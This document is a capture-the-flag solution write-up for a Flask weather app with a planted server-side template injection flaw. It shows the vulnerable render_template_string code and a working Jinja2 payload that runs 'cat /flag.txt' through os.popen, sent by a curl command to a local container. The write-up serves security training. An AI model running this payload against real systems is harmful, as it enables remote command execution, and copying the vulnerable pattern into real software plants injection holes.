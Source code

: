 # Cyberpunk Weather App CTF - Solution

## 1. Vulnerability Identification

The application is a Python Flask web server using the Jinja2 templating engine. The vulnerability lies in the main route (`/`) within `app/app.py`.

When a POST request is made to `/` with a `district` parameter, the application uses `render_template_string` with an f-string that directly includes the user-supplied `district` value:

```python
# ...
    if request.method == 'POST':
        district = request.form.get('district')

        if district in districts:
            # ...
            message = render_template_string(f"Current weather in {district} (on {data['time']}): {data['temperature']}°C, {data['conditions']}")
        else:
            # Vulnerable line:
            message = render_template_string(f"District {district} not found.")

    return render_template('index.html', districts=districts, message=message)
# ...
```

If the provided `district` is not in the predefined `districts` list, the `else` block is executed. The `district` parameter is directly embedded into the string passed to `render_template_string`. This allows for Server-Side Template Injection (SSTI).

The `Dockerfile` shows that `flag.txt` is copied to `/flag.txt` within the container.

## 2. Exploitation

To exploit this SSTI vulnerability and read `/flag.txt`, we can send a POST request with a crafted `district` parameter containing a Jinja2 payload.

The payload uses the Jinja2 context to access Python's built-in functions and execute arbitrary commands. Specifically, it imports the `os` module and uses `popen` to execute `cat /flag.txt` and read its output.

Payload:

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}
```

We need to send this payload as the value for the `district` form parameter in a POST request. The application is expected to be running on port 5001 (from `docker-compose.yml`).

## 3. Steps to Reproduce

1.  **Run the application** (if not already running):

    ```bash
    cd cyberpunk_weather_app
    docker-compose up -d
    ```

2.  **Send the malicious POST request using `curl`**:

    Open a terminal and execute the following command. This command sends a POST request to `http://localhost:5001/` with the `district` parameter set to our payload. Make sure the application is running and accessible at this address.

    ```bash
    curl -X POST -d "district={{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat /flag.txt').read() }}" http://localhost:5001/
    ```

3.  **Observe the output**:
    The response from the server will contain the rendered template, which will include the content of `/flag.txt`. The flag will likely be embedded within the "District ... not found." message.

    Example (the exact output might vary slightly in formatting):

    ```html
    <!DOCTYPE html>
    <html lang="en">
      <head>
        <meta charset="UTF-8" />
        <title>Cyberpunk Weather</title>
        <link rel="stylesheet" href="/static/style.css" />
      </head>
      <body>
        <div class="container">
          <h1>Cyberpunk Weather Forecast</h1>
          <form method="POST" action="/">
            <select name="district">
              <option value="Night City Center">Night City Center</option>
              <!-- ... other districts ... -->
            </select>
            <button type="submit">Get Weather</button>
          </form>
          <div class="message">District your_flag_here not found.</div>
        </div>
      </body>
    </html>
    ```

    The flag will be where `your_flag_here` is indicated in the example above, replacing the malicious payload in the "District ... not found" message.

## 4. Cleanup (Optional)

    ```bash
    cd cyberpunk_weather_app
    docker-compose down
    ```
